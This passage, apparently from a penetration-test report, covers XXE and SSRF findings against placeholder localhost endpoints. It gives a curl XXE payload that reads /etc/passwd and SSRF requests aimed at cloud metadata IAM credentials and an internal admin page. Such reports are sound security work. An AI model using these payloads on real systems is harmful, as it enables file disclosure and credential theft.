 ```bash
curl -X POST http://127.0.0.1/api/import -H "Content-Type: application/xml" -d '<!DOCTYPE test [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><test>&xxe;</test>'
```

#### Required Tools

- XML Editor
- XXEinjector
- Burp Suite

#### Potential Impact

- Local file disclosure (configuration files, credentials, etc.)
- Server-side request forgery (SSRF) through XXE
- Remote code execution in certain scenarios
- Denial of service through resource exhaustion
- Server information disclosure
- Service account compromise

---

### Server-Side Request Forgery (SSRF) (High)

**Affected Component:** http://127.0.0.1/api/fetch-resource (url parameter)

**Description:** An attacker manipulates the application to make server-side requests to internal or external resources. This can allow access to internal services, scan internal networks, steal metadata from cloud environments, or launch secondary attacks from the server's perspective.

#### Step-by-Step Exploitation

1. Navigate to the vulnerable function at: http://127.0.0.1/api/fetch-resource
2. Modify the url parameter to point to internal resources
3. Test access to localhost, private networks, or cloud metadata services
4. Extract sensitive information from internal resources

#### Example Payloads

```
https://vulnerable-site.com/fetch?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/
```

#### Code Examples

#### Command Examples

```bash
curl -X GET "http://127.0.0.1/api/fetch-resource?url=http://169.254.169.254/latest/meta-data/"
```

```bash
curl -X GET "http://127.0.0.1/api/fetch-resource?url=http://localhost:8080/admin"
```

#### Required Tools
